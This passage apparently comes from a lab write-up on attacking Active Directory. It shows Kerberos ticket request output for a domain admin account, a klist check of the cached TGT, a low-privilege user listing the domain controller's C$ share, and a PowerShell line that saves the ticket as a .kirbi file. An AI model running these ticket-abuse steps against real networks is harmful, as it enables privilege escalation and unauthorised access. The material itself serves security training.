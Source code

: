 ```plain
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  h85ETS[REDACTED]Za+4GEw==
  ASREP (key)              :  AFC858FA[REDACTED]49D1DE
```

With `klist` you can check the requested ticket is available.

```plain
PS C:\Windows\System32\WindowsPowerShell\v1.0> klist

Current LogonId is 0:0x58f55

Cached Tickets: (1)

#0>     Client: johnDomainAdmin @ offsec.nl
        Server: krbtgt/offsec.nl @ offsec.nl
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 1/19/2022 6:45:25 (local)
        End Time:   1/19/2022 16:45:25 (local)
        Renew Time: 1/26/2022 6:45:25 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

### Verify the requested ticket is usable

```plain
PS C:\Windows\System32\WindowsPowerShell\v1.0> whoami
offsec\johndo-lowpriv

PS Z:\> dir  \\DC01PKI.offsec.nl\c$


    Directory: \\DC01PKI.offsec.nl\c$


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----        12/11/2019  12:08 AM                PerfLogs
d-r---         1/11/2022   1:28 AM                Program Files
d-----         1/11/2022   1:29 AM                Program Files (x86)
d-r---         1/18/2022  12:44 AM                Users
d-----         1/19/2022   6:25 AM                Windows
```

### Convert the ticket from base to file

```plain
[IO.File]::WriteAllBytes("Z:\johnDomainAdmin.kirbi", [Convert]::FromBase64String("doIGPDCCBjig[REDACTED]FuZC5sb2NhbA=="))
```
